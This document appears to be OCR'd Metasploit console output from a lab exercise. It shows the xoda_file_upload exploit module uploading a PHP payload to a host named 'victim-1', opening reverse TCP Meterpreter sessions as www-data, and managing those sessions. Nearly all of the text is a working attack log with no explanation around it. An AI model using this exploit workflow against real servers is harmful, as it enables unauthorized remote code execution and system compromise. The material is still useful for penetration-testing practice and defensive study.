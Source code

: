 ```
meterpreter > help
meterpreter > background
[*] Backgrounding session 1...
```

```
msf5 exploit(unix/webapp/xoda_file_upload) > sessions

Active sessions
===============

  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  1         meterpreter php/linux  www-data (33) @ victim-1  192.119.191.2:4444 -> 192.119.191.3:36698 (192.119.191.3)

msf5 exploit(unix/webapp/xoda_file_upload) > sessions 1
[*] Starting interaction with 1...

meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.119.191.3 - Meterpreter session 1 closed.  Reason: User exit
msf5 exploit(unix/webapp/xoda_file_upload) > sessions

Active sessions
===============

No active sessions.
```

```
msf5 exploit(unix/webapp/xoda_file_upload) > run

[*] Started reverse TCP handler on 192.119.191.2:4444 
[*] Sending PHP payload (avkAbnGJqaKmoB.php)
[*] Executing PHP payload (avkAbnGJqaKmoB.php)
[*] Sending stage (38247 bytes) to 192.119.191.3
[*] Meterpreter session 3 opened (192.119.191.2:4444 -> 192.119.191.3:58826) at 2023-02-09 03:28:51 +0000
[!] Deleting avkAbnGJqaKmoB.php

meterpreter > 
Background session 3? [y/N]  
msf5 exploit(unix/webapp/xoda_file_upload) > sessions

Active sessions
===============

  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  3         meterpreter php/linux  www-data (33) @ victim-1  192.119.191.2:4444 -> 192.119.191.3:58826 (192.119.191.3)

msf5 exploit(unix/webapp/xoda_file_upload) > sessions -h
Usage: sessions [options] or sessions [id]

Active session manipulation and interaction.

OPTIONS:

    -C <opt>  Run a Meterpreter Command on the session given with -i, or all
    -K        Terminate all sessions
    -S <opt>  Row search filter.
```